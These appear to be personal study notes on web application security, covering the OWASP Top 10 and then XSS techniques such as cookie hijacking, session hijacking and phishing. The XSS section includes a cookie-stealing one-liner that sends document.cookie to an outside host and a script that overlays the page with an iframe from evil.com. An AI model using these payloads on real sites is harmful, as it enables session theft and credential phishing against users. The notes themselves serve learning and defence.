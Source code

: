 ## compare 2013 to 2017 changed
- microservice replace monolithic application, use restful API => no longer trusted caller
- use SPA in JS framework, highly modular code => more client side functionality
- Node.js running server side

# top 10 security risk
## 1. injection
SQL, NoSQL, OS, LDAP injection as part of command/query

## 2. broken authentication
application function related to authentication and session management implemented incorrectly
-> attackers compromise password, keys, session tokens
### prevent
1. generate random session ID, should not be URL
2. limit login 
3. avoid default credential

### attack method
1. use list of known passwords to attack
2. continued use of passwords
3. improper timeout -> not yet logout

## 3. sensitive data exposure
1. no extra protection, eg. encryption
### consideration
- HTTP, SMTP, FTP -> transfer in clear text
- old/weak cryptographic algorithm
- enforced encryption?
### prevent
classify data processed, stored
don't store sentiive data unnecessarily
encrpyt eg. TLS with PFS ciphers, user HSTS
store passwords using salted hashing functions
### attack method
1. SQL injection when retrieve credit card no. in clear text
2. site not enforcing TLS -> downgrade to HTTP, replay cookie
3. db use simple hashes/unsalted to store passwords

## 4. XML external entities
poorly configured XML processor evaluate external entity reference within XML document

## 5. broken access control
restrictions on users not properly enforced
eg. access other users' account, view sensitive files

## 6. security misconfiguration
insecure default configuration, incomplete / ad hoc config, open cloud storage

## 7. cross site scripting

## 8. insecure deserialization
## 9. using components with known vulnerabilities
## 10. insufficient logging & monitoring


# conventional attack
SQL injection, command line attack, upload vulnerablility

# XSS injection
## Cookie hijack
`document.location="http://www.test.com/cookie.asp?cookie="+document.cookie`
script to steal cookie data, store somewhere else
replay attack

## session hijack
session is based on cookie
write XSS to server (eg. leave in comment), when admin login to backend to check comment,
  will trigger XSS loophole
listen to all http package using some tool, get post data

## phishing (網絡釣魚)
1. construct fake form
2. script record down data 
3. XSS phishing expliot
```js
document.body.innerHTML = (
  '<div style="position:absolute; top:0px; left:0px; width:100%; height:100%;">'+
  '<iframe src=http://www.evil.com/>phishing.html width=100% height=100%>'+
  '</iframe></div>'
);
```
### XSS redirect phishing
### XSS html inject phishing
### Iframe phishing
### Flash phishing
upload flash file to server (eg. fake login frame), then use `<object>/<embed>` to reference flash

































